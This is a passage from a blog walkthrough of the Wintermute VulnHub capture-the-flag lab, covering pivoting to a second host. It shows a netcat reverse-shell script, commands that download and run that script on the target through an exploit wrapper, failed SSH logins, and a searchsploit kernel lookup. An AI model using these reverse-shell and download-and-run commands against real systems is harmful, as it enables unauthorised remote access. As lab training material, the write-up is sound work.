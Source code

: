 ![1-1.png](/assets/images/posts/wintermute-vulnhub-walkthrough/1-12.png)

As part of the port forwarding we'll be hitting the second interface of straylight:
Create a rs.sh

```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.219.8 4321 >/tmp/f 
```
Using exploit.sh
```
kali@kali:~/vulnhub/wintermute/privesc$ ./exploit.sh "wget 192.168.251.4:4321/rs.sh -O /tmp/rs.sh && cd /tmp && chmod 400 rs.sh"
kali@kali:~/vulnhub/wintermute/privesc$ ./exploit.sh "wget 192.168.219.8:4321/rs.sh -O /tmp/rs.sh && cd /tmp && chmod 400 rs.sh"
kali@kali:~/vulnhub/wintermute/privesc$ ./exploit.sh "cd /tmp && ./rs.sh"
kali@kali:~/vulnhub/wintermute/privesc$ n
kali@kali:~/vulnhub/wintermute/privesc$ ssh Lady3Jane@192.168.251.7 -p 34483
The authenticity of host '[192.168.251.7]:34483 ([192.168.251.7]:34483)' can't be established.
ECDSA key fingerprint is SHA256:oUL2wjfAFRqayjqOgc79xVYeSqvD92zqaV+4udNxJrw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.251.7]:34483' (ECDSA) to the list of known hosts.
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Lady3Jane@192.168.251.7: Permission denied (publickey,password).
kali@kali:~/vulnhub/wintermute/privesc$ ssh Lady3Jane@192.168.251.7 -p 34483
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Lady3Jane@192.168.251.7: Permission denied (publickey,password).
kali@kali:~/vulnhub/wintermute/privesc$ ssh ta@192.168.251.7 -p 34483
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
ta@192.168.251.7's password:
Permission denied, please try again.
ta@192.168.251.7's password:
Permission denied, please try again.
ta@192.168.251.7's password:
ta@192.168.251.7: Permission denied (publickey,password).
kali@kali:~/vulnhub/wintermute/privesc$ searchsploit linux 4.4.0-116
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator